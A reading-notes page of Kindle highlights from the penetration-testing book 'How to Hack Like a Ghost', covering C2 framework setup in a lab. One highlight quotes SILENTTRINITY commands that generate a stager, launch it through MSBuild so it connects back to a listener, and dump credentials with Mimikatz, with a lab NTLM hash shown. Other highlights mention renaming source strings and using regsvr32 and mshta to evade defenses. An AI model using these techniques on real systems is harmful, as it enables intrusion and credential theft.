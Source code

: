 title:: Document/How to Hack Like a Ghost
author:: [[@Sparc Flow]]
abbreviated-title:: How to Hack Like a Ghost 
cover:: ![Image](https://m.media-amazon.com/images/I/814wrSxBBwL._SY160.jpg)
full-title:: How to Hack Like a Ghost
start:: [[Oct 24th, 2023]]
end:: Unfinished
status:: Reading
document_type::

- Highlights
	- you have a new C2 backend running with the exact same configuration. Achieving this level of automation is not a whimsical way to try out the trendiest tools and programming techniques. The easier it is to spring ([Location 699](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=699))
	- community, read Permanent Record, by Edward Snowden (Macmillan, 2019). Search for darkAudax’s tutorial ([Location 706](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=706))
	- use a classic find command to hunt for source code files containing these strings and pipe them into xargs, which will call sed to replace these suspicious terms with ([Location 772](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=772))
	- compile an agent in the output folder that we will later drop on a Windows test machine: root@Lab:~/# make agent-windows ([Location 781](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=781))
	- (a Microsoft utility to register DLLs in the Windows Registry so they can be called by other programs; it can be used to trick DLLs like srcobj.dll into executing commands), mshta (a Microsoft utility that executes HTML Applications, ([Location 804](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=804))
	- with the command use implant/, from dumping passwords with Mimikatz to pivoting to other machines. If you’re familiar with Empire, then you will feel right at home with Koadic. ([Location 835](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=835))
	- perfectly safe-looking evil bombshells. The tool’s serverside requires Python 3.7, so make sure to have Python properly working ([Location 857](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=857))
	- payloads, and so on, which is very useful in team operations. You need to leave the server running in the first terminal and then open a second to connect to ([Location 865](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=865))
	- [1] ST (stagers) >> generate customListener [+] Generated stager to ./stager.xml If we take a closer look at the stager.xml file, we can see it embeds a base64-encoded version of an executable called naga.exe (SILENTTRINITY/core/teamserver/data/naga.exe), which connects back to the listener we set up and then downloads a ZIP file containing Boo-Lang DLLs and a script to bootstrap the environment. Once we compile and run this payload on the fly using MSBuild, we will have a full Boo environment running on the target’s machine, ready to execute whatever shady payload we send its way: # Start agent PS C:\> C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe stager.xml [*] [TS-vrFt3] Sending stage (569057 bytes) ->  192.168.1.30... [*] [TS-vrFt3] New session 36e7f9e3-13e4-4fa1-9266-89d95612eebc connected! (192.168.1.30) [1] ST (listeners)(https) >> sessions [1] ST (sessions) >> list Name           >> User         >> Address     >> Last Checkin 36e7f9e3-13... >> *wk_adm@PIANO>> 192.168.1.3 >> h 00 m 00 s 04 Notice how, unlike with the other two frameworks, we did not bother customizing the payload to evade Windows Defender. It just works . . . for now! We can deliver any of the current 69 post-exploitation modules, from loading an arbitrary assembly (.NET executable) in memory to regular Active Directory reconnaissance and credential dumping: [1] ST (sessions) >> modules [1] ST (modules) >> use boo/mimikatz [1] ST (modules)(boo/mimikatz) >> run all [*] [TS-7fhpY] 36e7f9e3-13e4-4fa1-9266-89d95612eebc returned job result (id: zpqY2hqD1l) [+] Running in high integrity process--snip-- msv : [00000003] Primary * Username : wkadmin    * Domain   : PIANO.LOCAL * NTLM     : adefd76971f37458b6c3b061f30e3c42--snip-- The project is still very young, yet it displays tremendous potential. If you are a complete beginner, though, you may suffer from the lack of documentation and explicit error handling. The tool is still in ([Location 875](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=875))
	- the tooling necessary to faithfully reproduce and automate almost every painful aspect of the manual setup. We’ll stick with ([Location 910](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=910))